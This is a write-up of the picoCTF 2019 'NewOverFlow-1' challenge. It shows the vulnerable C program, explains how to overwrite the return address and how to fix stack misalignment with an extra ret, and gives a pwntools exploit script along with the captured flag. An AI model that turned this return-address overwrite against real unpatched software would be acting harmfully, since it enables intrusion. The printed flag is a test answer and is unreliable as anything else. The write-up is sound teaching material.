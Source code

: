 # NewOverFlow-1: Points: 200

Note: I was not able to solve this challenge during the CTF.
I decided to revisit this challenge afterwards, once I had learned more about binary exploitation.
It seemed like a relatively simple task, so at first, I wasn't sure why my payload was failing to produce a flag.
Some research led me to the issue of stack misalignment, the solution to which is demonstrated in this writeup.

## Description

Lets try moving to 64-bit, but don't worry we'll start easy. Overflow the buffer and change the return address to the flag function in this [program](./vuln). You can find it in /problems/newoverflow-1_2_706ae8f01197e5dbad939821e43cf123 on the shell server. [Source](./vuln.c).

## Solution

This challenge is very similar to OverFlow 1, however, it is slightly complicated by the fact that it is a 64-bit program.
Regardless, the goal is still to overwrite the return address and call the ```flag()``` function.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}
```

We know that the buffer size is 64 bytes, and that 8 bytes will be reserved for the RBP, therefore, we can include padding of 72 bytes and start writing our recognisable pattern.
This time, it is ideal to use 8-character chunks as opposed to 4-character chunks, so the string might look like AAAAAAAABBBBBBBBCCCCCCCC...

If we run the program in GDB and check the value if RBP, we'll find that its been overwritten with whichever character was used for padding.
Using this, we know that the return address is begin overwritten with 0x4141414141414141.

We're able to call the ```flag()``` function successfully, however, the program throws a segmentation fault error when trying to print the flag.
This is because the 72-byte payload offset the call stack so that it was no longer a multiple of 16 bytes.

To resolve this, we can remove 8 bytes from the stack by having the function first return to the last line of itself, essentially calling `ret` twice, and writing the address of ```flag()``` directly after that.

## Exploit script

This script is similar to the script from OverFlow 1, however, it uses the ```p64()``` function to format the addresses for a 64 bit program.

Note that the address of the last instruction of the ```vuln()``` is our first return address.
As the instruction here is a `ret` instruction, it will immediately read the next value on the stack and return to it, this being the address of the ```flag()``` function.

```py
#!/usr/bin/python
from pwn import *
from getpass import getpass

pico_user = input("Username: ")[:-1]
pico_pass = getpass("Password: ")

conn = ssh(host = '2019shell1.picoctf.com', user = pico_user, password = pico_pass)

location = '/problems/newoverflow-1_2_706ae8f01197e5dbad939821e43cf123'

print("running vuln")
vuln = conn.process(location + '/vuln', cwd = location)
print(vuln.recvline())

print("sending payload")
vuln.sendline(('A'*72).encode() + p64(0x00000000004007e7) + p64(0x0000000000400767) + '\n'.encode())

print("done")
vuln.interactive()
```

## Flag

```picoCTF{th4t_w4snt_t00_d1ff3r3nt_r1ghT?_7a154fef}```


